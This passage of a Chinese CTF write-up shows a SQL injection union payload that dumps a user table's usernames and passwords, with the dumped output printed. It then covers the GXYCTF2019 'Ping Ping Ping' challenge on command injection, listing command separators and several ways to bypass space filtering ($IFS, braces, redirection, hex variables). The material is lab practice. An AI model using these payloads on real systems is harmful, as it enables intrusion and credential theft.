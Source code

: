 

爆指定库字段

```
1'union select 1,2,group_concat(concat_ws('--',id,username,password)) from l0ve1ysq1%23
```

1--cl4y--wo_tai_nan_le,2--glzjin--glzjin_wants_a_girlfriend,3--Z4cHAr7zCr--biao_ge_dddd_hm,4--0xC4m3l--linux_chuang_shi_ren,5--Ayrain--a_rua_rain,6--Akko--yan_shi_fu_de_mao_bo_he,7--fouc5--cl4y,8--fouc5--di_2_kuai_fu_ji,9--fouc5--di_3_kuai_fu_ji,10--fouc5--di_4_kuai_fu_ji,11--fouc5--di_5_kuai_fu_ji,12--fouc5--di_6_kuai_fu_ji,13--fouc5--di_7_kuai_fu_ji,14--fouc5--di_8_kuai_fu_ji,15--leixiao--Syc_san_da_hacker,16--flag--flag{03addeba-bef3-4821-86bd-04c7690ea3a6}

得到flag



## [GXYCTF2019]Ping Ping Ping

### 考点：命令执行、过滤绕过、变量拼接

> [参考WP](https://www.cnblogs.com/Cl0ud/p/12313368.html)
>
> [个人博客，有各种绕过过滤方法，关键词**](https://chen.oinsm.com/2020/01/10/GXYCTF-2019-%E5%A4%8D%E7%8E%B0/)
>
> 

1. 执行多条bash语句：

```
;
|   //前面的输出作为后面的输入，被吞掉
&
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220130121137143.png" alt="image-20220130121137143" style="zoom: 67%;" />

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220130121159304.png" alt="image-20220130121159304" style="zoom: 67%;" />

2. 发现空格被过滤，绕过方法：

```
{cat,flag.txt} 
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg
(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过)
```



3. 发现关键词flag被过滤

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220130121238751.png" alt="image-20220130121238751" style="zoom:67%;" />
